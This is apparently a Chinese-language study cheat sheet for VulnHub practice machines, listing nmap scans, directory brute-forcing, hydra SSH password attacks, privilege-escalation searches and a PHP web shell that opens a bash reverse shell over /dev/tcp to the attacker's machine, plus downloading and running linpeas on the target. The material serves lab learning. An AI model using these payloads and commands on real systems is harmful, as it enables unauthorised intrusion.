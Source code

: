 # vulnhub靶场学习

##  #0 基础知识查漏补缺

#### 1> mv命令修改文件名

```bash
mv 旧文件名 新文件名
```

#### 2> which命令搜索命令位于哪个文件夹下

```
which linpeas
```

输出信息：

```
/usr/bin/linpeas
```

#### 3> nmap信息收集

##### 发现靶机，新出现的条目即是靶机

​	-sn存活探测

```bash
sudo nmap -sn 192.168.xxx.1/24
```

##### 简单端口扫描，输出靶机开启的端口  

​	-sT使用tcp协议 

​	--min-rate以最小10000速率扫描 

​	-oA nmapscan/ports以全格式输出保存在ports文件

```bash
sudo nmap -sT --min-rate 10000 -p- 靶机ip -oA nmapscan/ports
```

##### tcp扫描

​	-sV检测服务版本

​	-sC扫描时使用默认脚本

​	-O识别操作系统

​	-p[端口],[端口]...指定端口扫描服务

```bash
sudo nmap -sT -sV -sC -O -p21,22,80 靶机ip -oA nmapscan/detail
```

##### udp扫描

​	-sU使用udp协议

​	--top-ports 20对top20的端口进行扫描

```bash
sudo nmap -sU --top-ports 20 靶机ip -oA nmapscan/udp
```

##### 漏洞脚本扫描

```bash
sudo nmap --script=vuln -p21,22,80  靶机ip -oA nmapscan/vuln
```

#### 4> nc+php反弹shell

靶机添加载体.php文件，写入

```php
<?php system("bash -i >& /dev/tcp/你kali的ip/4444 0>&1");?>
```

之后在kali输入接受反弹

```bash
nc -lvvp 4444
```

#### 5> 字符转含特殊字符可能上传不上去，这是需要将其转换成url编码，再上传试试

#### 6> 使用dirsearch搜索文件

```bash
dirsearch  -u 靶机ip -x 403,401
```

#### 7> 使用gobuster搜索文件

```bash
gobuster dir -u http://靶机ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html,txt
```

#### 8> 使用bp抓包时不必一直开启intercept，在history中会显示所有的包

#### 9> 生成更好的tty shell

反弹的shell中输入

```bash
python3 -c 'import pty;pty.spawn("bin/bash")'
```

#### 10> 使用wget下载靶机文件

例

```bash
wget http://192.168.0.127/.cypher-neo/png
```

#### 11> 使用exiftool查看图片元信息

显示图片大小，分辨率，文件格式，色深等

```bash
exiftool cypher-neo.png
```

#### 12> 使用steghide提取隐藏信息

```bash
steghide extract -sf 文件名
```

对于有密码加密的需要提供密码

#### 13> 上传并利用linpeas辅助提权

首先开启http服务

```bash
python3 -m http.server
```

在靶机shell中输入，上传linpeas.sh

```bash
cd /tmp
wget http://本机地址:8000/linpeas.sh
```

添加可执行权限

```
chmod +x linpeas.sh
```

启动linpeas

```
./linpeas.sh
```

#### 14> hydra 字典爆破ssh

```bash
hydra -L 用户名文件 -P 密码文件 ssh://靶机ip
```

#### 15> mysql连接

```bash
mysql -u 用户名 -h 靶机ip -p
```

mysql语句以分号结束

#### 16> ssh连接

```bash
ssh 用户名@靶机ip
```

#### 17>查找可执行

```
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
```



## #1 MATRIX-BREAKOUT: 2 MORPHEUS

### 原地址

https://www.vulnhub.com/entry/matrix-breakout-2-morpheus,757/

### 

## #2 KIOPTRIX: LEVEL 1 (#1)

### 原地址

https://www.vulnhub.com/entry/kioptrix-level-1-1,22/

